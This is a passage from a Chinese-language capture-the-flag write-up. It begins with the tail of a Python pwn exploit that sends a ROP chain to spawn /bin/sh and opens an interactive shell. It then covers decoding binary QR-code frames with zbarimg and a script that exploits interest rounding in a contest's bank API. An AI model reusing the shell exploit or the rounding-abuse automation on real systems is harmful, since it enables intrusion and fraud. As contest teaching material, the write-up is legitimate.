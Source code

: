 ```python
	0x407228,0,
	0x43dbb5,0,
	0x43e52c,59,
	0x402bf4
]
payload=b'(2,2)  /bin/sh\0'.ljust(0x98,b'a')+b''.join(map(p64,rop))
send(payload)

r.interactive()
```

## 来自未来的信笺

先进行二维码识别，但是 pyzbar 这个库不能处理二进制（会在 `\0` 截断）。patch 该库也没用，然后发现是 zbar 自身的问题。

Google 一番后得知，zbar 的高版本才能处理二进制，于是用高版本（arch 带的版本）+ os.system 来处理。

```python
import os

cmd='zbarimg --raw -Sbinary %s > %s'
n = 351
for i in range(0, n):
	fi = 'frames/frame-x%s%s.png' % (chr(i // 26 + 97), chr(i % 26 + 97))
	fo = 'output/%d.txt' % i
	os.system(cmd%(fi,fo))
```

把所有输出拼起来可以得到一个 tar 文件，解压出一个 repo.tar.xz，再解压就得到了 flag。

## 狗狗银行

利息是四舍五入的，可以搞一大堆储蓄卡，每张存 167 元，这样总利息就高于信用卡利息了。

```python
import requests

headers = {
	'cookie': 'xxx',
	'Authorization': 'xxx',
}


def transfer(src, dst, amount):
	data = {
		'amount': amount,
		'dst': dst,
		'src': src,
	}
	r = requests.post('http://202.38.93.111:10100/api/transfer', json=data, headers=headers)
	return r.text


def create(typ):
	data = {
		'type': typ
	}
	r = requests.post('http://202.38.93.111:10100/api/create', json=data, headers=headers)


def eat(card):
	data = {
		'account': card
	}
	r = requests.post('http://202.38.93.111:10100/api/eat', json=data, headers=headers)
```